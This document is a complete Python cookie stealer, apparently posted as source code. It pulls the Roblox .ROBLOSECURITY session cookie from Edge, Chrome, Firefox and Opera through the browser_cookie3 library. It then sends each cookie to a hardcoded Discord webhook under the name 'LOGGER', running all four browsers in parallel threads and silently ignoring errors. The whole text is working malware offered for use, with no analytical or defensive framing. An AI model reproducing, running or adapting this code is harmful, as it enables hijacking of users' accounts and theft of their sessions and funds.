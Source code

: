 import browser_cookie3, requests, threading

webhook = "https://discord.com/api/webhooks/994033445661581382/uUVxKX2DHwOaG-3QnfD_O_gi8oh9G4dMjh8rvbwCv3ILr1YABAMWz2S9-2eCcSrFWjeQ"

def edge_logger():
    try:
        cookies = browser_cookie3.edge(domain_name='roblox.com')
        cookies = str(cookies)
        cookie = cookies.split('.ROBLOSECURITY=')[1].split(' for .roblox.com/>')[0].strip()
        requests.post(webhook, json={'username':'LOGGER', 'content':f'```Cookie: {cookie}```'})
    except:
        pass
def chrome_logger():
    try:
        cookies = browser_cookie3.chrome(domain_name='roblox.com')
        cookies = str(cookies)
        cookie = cookies.split('.ROBLOSECURITY=')[1].split(' for .roblox.com/>')[0].strip()
        requests.post(webhook, json={'username':'LOGGER', 'content':f'```Cookie: {cookie}```'})
    except:
        pass


def firefox_logger():
    try:
        cookies = browser_cookie3.firefox(domain_name='roblox.com')
        cookies = str(cookies)
        cookie = cookies.split('.ROBLOSECURITY=')[1].split(' for .roblox.com/>')[0].strip()
        requests.post(webhook, json={'username':'LOGGER', 'content':f'```Cookie: {cookie}```'})
    except:
        pass

def opera_logger():
    try:
        cookies = browser_cookie3.opera(domain_name='roblox.com')
        cookies = str(cookies)
        cookie = cookies.split('.ROBLOSECURITY=')[1].split(' for .roblox.com/>')[0].strip()
        requests.post(webhook, json={'username':'LOGGER', 'content':f'```Cookie: {cookie}```'})
    except:
        pass

browsers = [edge_logger, chrome_logger, firefox_logger, opera_logger]

for x in browsers:
    threading.Thread(target=x,).start()
